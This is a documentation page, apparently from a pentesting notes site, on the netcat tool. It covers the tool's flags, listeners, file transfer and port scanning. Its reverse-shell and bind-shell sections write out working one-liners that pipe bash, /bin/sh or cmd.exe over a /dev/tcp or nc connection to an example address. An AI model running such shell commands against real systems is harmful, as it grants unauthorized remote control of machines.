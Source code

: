 ```yaml
---
title: "nc"
# pre : '<i class="fas fa-code"></i> '
description: "Netcat, arbitrary TCP and UDP connections and listens."
date: 2020-04-09T13:47:11+02:00
# hidden : true
# draft : true
weight: 0
# tags : ['']
---
```


## Netcat

Netcat, arbitrary TCP and UDP connections and listens.

### Binary for Windows

{{%attachments fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

- SHA256 'nc.exe' - `be4211fe5c1a19ff393a2bcfa21dad8d0a687663263a63789552bda446d9421b`

## Usage

```plain
nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
```

## Flags

```plain
      [-m minttl] [-O length] [-P proxy_username] [-p source_port]
      [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
      [-X proxy_protocol] [-x proxy_address[:port]]       [destination] [port]
    Command Summary:
        -4      Use IPv4
        -6      Use IPv6
        -b      Allow broadcast
        -C      Send CRLF as line-ending
        -D      Enable the debug socket option
        -d      Detach from stdin
        -F      Pass socket fd
        -h      This help text
        -I length   TCP receive buffer length
        -i interval Delay interval for lines sent, ports scanned
        -k      Keep inbound sockets open for multiple connects
        -l      Listen mode, for inbound connects
        -M ttl      Outgoing TTL / Hop Limit
        -m minttl   Minimum incoming TTL / Hop Limit
        -N      Shutdown the network socket after EOF on stdin
        -n      Suppress name/port resolutions
        -O length   TCP send buffer length
        -P proxyuser    Username for proxy authentication
        -p port     Specify local port for remote connects
        -q secs     quit after EOF on stdin and delay of secs
        -r      Randomize remote ports
        -S      Enable the TCP MD5 signature option
        -s source   Local source address
        -T keyword  TOS value
        -t      Answer TELNET negotiation
        -U      Use UNIX domain socket
        -u      UDP mode
        -V rtable   Specify alternate routing table
        -v      Verbose
        -W recvlimit    Terminate after receiving a number of packets
        -w timeout  Timeout for connects and final net reads
        -X proto    Proxy protocol: "4", "5" (SOCKS) or "connect"
        -x addr[:port]  Specify proxy address and port
        -Z      DCCP mode
        -z      Zero-I/O mode [used for scanning]
    Port numbers can be individual or ranges: lo-hi [inclusive]
```

## Examples

### Create a Netcat listener

This listener will listen on specific IP and port. IP can be removed if any interface is needed.

```plain
nc -lvp 10.10.10.2 80
```

### Transferring files

Receiver

```plain
nc -nlvp 10.10.10.2 4444 > incomming.exe
```

Sender

```plain
nc -nv 10.10.10.2 4444 < /Downloads/wget.exe
```

### Reverse Shell

**Receiver:**

```plain
nc -nlvp 10.10.10.2 4444
```

**Identity connecting and sending the reverse shell:**

```plain
bash -i >& /dev/tcp/10.10.10.2/4444 0>&1
```

**OR identity connecting and sending the reverse shell:**

```plain
nc 10.10.10.2 4444 -e /bin/sh
```

### Bind Shell

**Receiver:**

```plain
nc -nlvp 4444 -e cmd.exe
```

**Identity connecting to bind shell::**

```plain
nc -nv <ip> 4444
```

### Port Scanning (TCP)

**Note:** NetCat port scanning is based on the three-way handshake.

```plain
nc -nvv -w 1 -z 10.10.10.20 3380-3390
```

### Port Scanning (UDP)

```plain
nc -nv -u -z -w 1 10.10.10.20 160-162
```

## URL List

- [Linux.die.net](https://linux.die.net/man/1/nc)

